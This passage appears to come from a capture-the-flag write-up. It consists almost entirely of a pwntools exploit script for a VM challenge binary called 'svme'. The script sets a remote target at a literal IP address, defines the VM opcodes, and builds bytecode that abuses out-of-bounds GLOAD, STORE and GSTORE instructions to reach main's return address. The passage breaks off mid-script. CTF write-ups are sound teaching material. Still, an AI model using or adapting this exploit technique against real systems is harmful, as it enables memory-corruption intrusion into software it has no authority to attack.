 ## Full exploit
```python
from pwn import *

s = lambda x: io.send(x)

elf = context.binary = ELF('svme', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    gs = '''
        b *vm_exec+1738
    '''

    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gs)
    elif args.REMOTE:
        return remote('47.243.140.252', 1337)
    else:
        return process(elf.path) 


# OPCODES
IADD_OP   = 0x1
ISUB_OP   = 0x2
IMUL_OP   = 0x3
ILT_OP    = 0x4
IEQ_OP    = 0x5
BR_OP     = 0x6
BRT_OP    = 0x7
BRF_OP    = 0x8
ICONST_OP = 0x9
LOAD_OP   = 0x0a
GLOAD_OP  = 0x0b
STORE_OP  = 0x0c
GSTORE_OP = 0x0d
PRINT_OP  = 0x0e
POP_OP    = 0x0f
CALL_OP   = 0x10
RET_OP    = 0x11
HLT_OP    = 0x12

def parse_opcode(op):
    return p32(op)

def compile(shellcode):
    bytecode = b''
    for code in shellcode:
        bytecode += parse_opcode(code)
    return bytecode
    
io = start()

shellcode = [    
    # load the address of vm->code to the stack using GLOAD out-of-bounds vulnerability.
    # we can copy 4 bytes each time so we have to copy both the upper 4 and lower 4 bytes of vm->code.
    GLOAD_OP, 0xffffffff - 0x840 + 1 + 1,
    GLOAD_OP, 0xffffffff - 0x840 + 1,
    ICONST_OP, 0x218, # offset from vm->code address to main return address.
    IADD_OP, # add the offset.
    
    # the same out-of-bounds vulnerabilities exist for STORE & GSTORE instructions too.
```